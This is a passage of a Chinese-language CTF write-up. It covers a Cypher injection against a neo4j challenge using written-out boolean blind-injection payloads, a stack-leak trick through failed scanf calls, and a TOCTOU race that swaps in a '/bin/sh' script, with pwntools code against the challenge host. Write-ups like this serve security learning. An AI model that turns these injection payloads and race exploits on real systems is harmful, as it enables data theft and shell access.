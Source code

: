 经过一阵艰难的取证（猜），发现`/flag.txt`内容是`<p style="color: rgba(0, 0, 0, 0)">Flag is in SQLite3: database.sqlite</p>`，一开始没理解到意思，不过好像是说`database.sqlite`就是一个文件，尝试读取发现FLAG明文包含在其中了。这个题出的实在不怎么好。很可惜没找到包含马的地方没法RCE了。


### web - mexico city tour
这个题基于`neo4j`的Cypher语言，这是一种图数据库语言。题目描述中，FLAG在数据库的某个节点的某个字段里。这个题对输入是直接拼接的形式，也就是可以注入。不过这个题只能回显一个数字，我在Cypher文档里也没找到如何把字符串转为ASCII值的函数，所以只能打布尔盲注了。

关于Cypher Injection，我主要参考了[这篇博客](https://pentester.land/blog/cypher-injection-cheatsheet)和[官方文档](https://neo4j.com/docs/cypher-manual/current/introduction/)

```python
start = request.form["startStation"]
end = request.form['endStation']
distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'
```

最后我构造出来的注入语句如下（都是逐个ASCII遍历）：
```python
key_query = lambda ind, s: {
    'startStation': '0})-[p *bfs]-(m {name: \'FLAG\'}) where substring(keys(m)[2], %d, 1)=\'%s\' RETURN 65537 AS distance; //' % (ind, s),
    'endStation': '0',
}

flag_query = lambda ind, s: {
    'startStation': '0})-[p *bfs]-(m {name: \'FLAG\'}) where substring(m.flag, %d, 1)=\'%s\' RETURN 65537 AS distance; //' % (ind, s),
    'endStation': '0',
}
```
爆出来数据库每个节点（Station类型）的三个字段分别为id, name, flag（只有第三个需要爆破，前两个在代码中已知），FLAG所在节点的id为-1，name为FLAG。用where子句很容易构造布尔盲注，要么返回一个值，要么没有返回值。

### pwn - average
基于同栈调用，未初始化内存的题。题目会先调用一个函数把flag存储到栈上，然后调用一个新的函数，建立一个int数组，用scanf把输入读取到内存上，然后返回输入之和的平均值。

问题在于scanf解析不出数字时会直接返回，所以我们只要输入一个非数字，就能让后续所有scanf失败，那么此时被用于计算平均值的内存值就是未初始化的（也就是上一次同栈调用的flag内容）。多次反复调用可以获得flag内容。

### pwn - races
有点意思的一个题，从题目名字来看就是考条件竞争。首先题目所有的输出都是单个字符并且间隔0.1秒（增大时间窗口），这个题会接受一个文件名（必须只包含小写字母和点），c语言源码。程序会把源码保存到指定文件中，首先校验sha1是否是已知值（只有两个允许的已知值），然后用gcc编译（编译目标文件名为源码名.exe），之后`subprocess.check_call`运行。

如果我们可以在校验好的文件编译后到可执行文件执行前，上传一个新的文件覆盖编译后的可执行程序，那么就会达到偷梁换柱的效果，即TOCTOU攻击。上传的新文件即使只是一个shell也没有关系：
```sh
#!/bin/sh
echo getshell
exec /bin/sh
```

```py
conn1 = remote('0.cloud.chals.io', 10840)
conn2 = remote('0.cloud.chals.io', 10840)
conn1.sendlineafter(b'Enter filename: ', f"{fname}.c".encode())
conn2.sendlineafter(b'Enter filename: ', f"{fname}.c.exe".encode())
conn1.sendlineafter(b'Enter contents (base64): ', allow_b64)

conn1.recvuntil(b'Runn')

conn2.sendlineafter(b'Enter contents (base64): ', getshell_b64)

# conn1.sendline(b'ls /; cat flag')
conn1.interactive()
# TBTL{T1m3_0f_chEck_70_tIM3_0f_PWN}
```
